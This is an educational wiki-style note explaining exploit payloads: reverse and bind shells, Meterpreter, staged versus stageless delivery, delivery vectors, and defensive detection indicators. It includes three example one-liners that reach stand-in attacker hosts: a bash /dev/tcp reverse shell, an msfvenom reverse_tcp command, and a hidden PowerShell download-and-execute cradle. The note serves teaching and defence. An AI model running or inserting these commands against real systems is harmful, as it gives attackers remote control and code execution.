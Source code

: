 A **payload** is the component of an exploit that performs the attacker's desired actions after a vulnerability is successfully exploited. Payloads are delivered through **exploit frameworks** and can enable **remote control**, **data theft**, **privilege escalation**, or **persistence**.

Understanding different payload types is critical for both **red team operations** and **defensive detection**.

---

## 🎯 Purpose of Payloads

- Establish **remote access** to the compromised system
- Perform **post-exploitation** actions (e.g., data exfiltration, privilege escalation)
- Maintain **persistence** or drop secondary malware
- Gather **intelligence** from the target (e.g., credentials, screenshots)

---

## 🧱 Common Payload Categories

| Payload Type       | Description                                                      |
|--------------------|------------------------------------------------------------------|
| **Reverse Shell**   | Victim connects back to attacker for interactive control         |
| **Bind Shell**      | Victim listens on a port; attacker connects in                   |
| **Meterpreter**     | Advanced Metasploit shell with in-memory execution and modules   |
| **Stager/Stageless**| Staged payloads are modular; stageless are delivered whole       |
| **Beacon**          | Lightweight callback to C2 used for stealth and tasking          |
| **Command Execution** | Executes specific commands, no persistent session               |
| **Downloader/Dropper** | Fetches secondary payload from a remote source               |
| **Privilege Escalation** | Attempts to elevate current permissions                     |
| **Ransomware Module** | Encrypts files and/or delivers ransom instructions             |

---

## 🔁 Payload Execution Models

### 🔄 Staged Payloads
- Split into **stager + stage**
- Initial payload is small and fetches larger component (e.g., shell, beacon)
- **Pro**: Small footprint  
- **Con**: Requires outbound network access

### 🧱 Stageless Payloads
- Delivered in one monolithic blob
- **Pro**: More reliable, fewer moving parts  
- **Con**: Larger and more detectable

---

## 🧪 Examples of Payloads

### 🧨 Reverse Shell (Linux Bash)
```bash
bash -i >& /dev/tcp/attacker_ip/4444 0>&1
```

### 🛰 Meterpreter (Metasploit)
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f exe > shell.exe
```

### 🔗 PowerShell One-liner
```
powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://attacker/payload.ps1')"
```

## 🧰 Delivery Vectors

|Vector|Notes|
|---|---|
|**Exploit frameworks**|Metasploit, Sliver, Cobalt Strike|
|**Phishing attachments**|Macro-based Word/Excel files|
|**Malicious links**|Redirects to browser-based exploits|
|**USB/Removable Media**|Autorun payloads or HID emulation|
|**Drive-by Downloads**|Triggered by vulnerable browser or plugin|

---

## 🔐 Common Payload Targets

|OS/Platform|Examples|
|---|---|
|**Windows**|`meterpreter/reverse_tcp`, PowerShell, WMI scripts|
|**Linux/Unix**|Bash shell, ELF droppers, cron persistence|
|**macOS**|Mach-O reverse shells, AppleScript, LaunchDaemons|
|**Web Apps**|PHP/ASP shells, JavaScript droppers|

---

## 🛡️ Defensive Considerations

|Indicator|Detection Strategy|
|---|---|
|Unusual ports/protocols|Monitor outbound traffic (e.g., 53, 443, 4444)|
|Payload obfuscation (Base64, XOR)|Detect via YARA or script block logging|
|Suspicious parent-child process|E.g., `winword.exe → powershell.exe` (LOLBins)|
|Beaconing behavior|Detect with RITA, Zeek, or time-based SIEM correlation|
|In-memory payloads (fileless)|EDR with memory inspection (e.g., CrowdStrike, SentinelOne)|

---

## 🔗 Related Topics

- [[Exploit Frameworks]]
- [[Command and Control (C2)]]
- [[Fileless Malware]]
- [[PowerShell Attacks]]
- [[Defense Evasion Techniques]]
- [[Malware Analysis Workflow]]

---

## 🏷 Tags

#payloads #reverse_shell #meterpreter #red_team #post_exploitation #beacon #dropper #command_execution #c2